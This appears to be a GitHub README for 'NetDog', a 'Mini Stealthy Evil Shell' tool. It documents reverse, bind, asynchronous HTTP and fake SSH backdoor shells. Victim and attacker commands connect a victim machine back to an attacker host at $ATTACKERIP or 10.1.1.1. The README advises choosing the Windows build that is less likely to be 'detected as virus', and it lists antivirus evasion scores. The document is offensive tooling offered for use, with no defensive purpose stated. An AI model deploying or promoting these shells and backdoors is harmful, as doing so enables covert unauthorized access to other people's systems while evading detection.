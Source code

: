 # NetDog
Mini Stealthy Evil Shell

## Roadmap
- Reverse Shell
    - [x] TCP
        - [ ] TLS
    - [x] UDP
        - [ ] DTLS
- Bind Shell
    - [x] TCP (use SSH backdoor for encryption)
    - [x] UDP
        - [ ] DTLS
    - [ ] use hash for auth
- HTTP shell
    - Web Shell (will be available at [gohfs](https://github.com/finzzz/gohfs))
    - [x] Asynchronous
        - [ ] TLS
- Others
    - [x] Auto reconnect
    - [x] Fake SSH backdoor
        - [ ] PTY shell
        - [ ] Multiple connection
    - [ ] Pack rustscan to the binary

## Choosing binary
- There are only 2 types: `nd` (linux/amd64) `nd.exe` (windows/amd64)  
- For windows, choose the one without upx to avoid being detected as virus.  

## Reverse shell
```
+--------------------------------+            +--------------------------------+
|                                |            |                                |
|                         victim +------------> attacker (10.1.1.1)            |
| ./nd -host 10.1.1.1 -port 1234 |            | nc -lvnp 1234                  |
|                                |            |                                |
+--------------------------------+            +--------------------------------+
```

## Bind shell
```
+--------------------+            +--------------------+
|                    |            |                    |
|  victim (10.1.1.2) <------------+ attacker           |
|       ./nd -l 1234 |            | nc 10.1.1.2 1234   |
|                    |            |                    |
+--------------------+            +--------------------+
```

## Asynchronous HTTP shell
```
+-------------------------+                 +------------------------+
|victim                   |                 |attacker                |
|http client              |                 |http server             |
|                         |                 |                        |
|                         |   find command  |                        |
|                         +----------------->                        |
|            execute <----+                 |                        |
|                         +----------------->                        |
|                         |    response     |                        |
|                         |                 |                        |
|                         |                 |                        |
+-------------------------+                 +------------------------+
```
```bash
./nd -async -m http -server # server
./nd -host $ATTACKERIP -port $ATTACKERPORT -m http # client
```

## Fake SSH Backdoor
```bash
# on victim machine
echo -n "netdog" | sha256sum # generate password hash
./nd -m ssh -hash d7b8c7f4fe8b3a9c2ed92189aed08530c5cb02c6e330a1fb3005cb4c0ca04151 # start the server

# on attacker machine
ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no whatever@victim -p 1234
```

## AV status
2021-05-23 03:13:04 UTC

| type | size | score | windows defender |
| - | - | -| - |
|without upx | 2.2 MB|[4/69](https://www.virustotal.com/gui/file/b042c2498ab6ee36ce998842d4ed4592d46f55026677f1f6e750edf7b6a2411d/detection)| pass|
|with upx | 663 KB|[6/69](https://www.virustotal.com/gui/file/b6f9b09b20cda55d3e87d4f3c74971bffa65781c297ea4742c5987cc69b9b391/detection)| not pass|

## Usage
```
$./nd -h
Usage of ./nd:
  -host string
        Host (default "127.0.0.1")
  -l    Bind mode
  -port string
        Port (default "1234")
  -recon string
        Reconnecting Time (default "15s")
  -shell string
        Unix Shell (default "/bin/sh")
  -u    Enable UDP
```